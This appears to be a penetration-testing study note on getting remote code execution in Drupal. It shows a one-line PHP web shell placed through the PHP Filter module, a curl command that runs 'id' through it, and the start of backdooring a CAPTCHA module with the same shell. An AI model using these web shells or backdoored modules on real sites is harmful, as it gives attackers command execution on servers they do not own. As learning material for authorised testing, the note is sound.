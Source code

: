 ![PHP Filter](/assets/img/notes/web/drupal_php_module.png)

Then we can create a basic page:

![Basic Page]((/assets/img/notes/web/basic_page.png)

Inside the page we can add:
```php
<?php
system($_GET['cmd']);
?>
```

We also want to make sure to set **Text format** drop-down to **PHP code**. Now go to the page, for example in node 4:
```console
zero@pio$ curl -s http://<TARGET>/node/4?cmd=id | grep uid | cut -f4 -d">"
```

From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves. We'd start by downloading the most recent version of the module from the Drupal website:
```console
zero@pio$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration > Reports > Available updates` and upload the file downloaded. Once the module is installed, we can click on **Content** and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select **PHP code** from the **Text format** dropdown.

### Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Take for example a CAPTCHA module:
```console
zero@pio$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
zero@pio$ tar xvf captcha-8.x-1.2.tar.gz
```

Create a PHP web shell with the contents:
```php
<?php
system($_GET[cmd]);
?>
```

